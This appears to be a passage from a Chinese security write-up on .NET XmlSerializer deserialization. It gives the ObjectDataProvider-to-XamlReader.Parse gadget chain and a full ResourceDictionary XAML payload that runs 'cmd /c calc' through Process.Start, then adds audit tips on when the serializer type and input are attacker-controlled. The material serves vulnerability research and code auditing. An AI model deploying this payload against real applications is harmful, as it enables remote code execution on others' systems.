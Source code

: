 整个链子的思路:

```plain
ObjectDataProvider -> XamlReader.Parse() -> ObjectDataProvider -> System.Diagnostics.Process.Start("cmd.exe","/c calc")
```

对于ResourceDictionary的RCE代码,`XamlReader.Parse()`解析即可触发

```plain
<ResourceDictionary 
                    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
                    xmlns:b="clr-namespace:System;assembly=mscorlib" 
                    xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

所以整个的payload:

[![](assets/1701606816-de1ed208938f2ae8893a1debd82749cf.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231102163833-34cfc832-795b-1.jpg)

### 代码审计视角--type可控

1.  初始化时`new XmlSerializer(type)`的type参数，如果type可控，就可以利用ObjectDataProvider调用XamlReader的Parse进行RCE。
    
2.  `xml.Deserialize(memoryStream)`中的反序列化的值是否可控。
    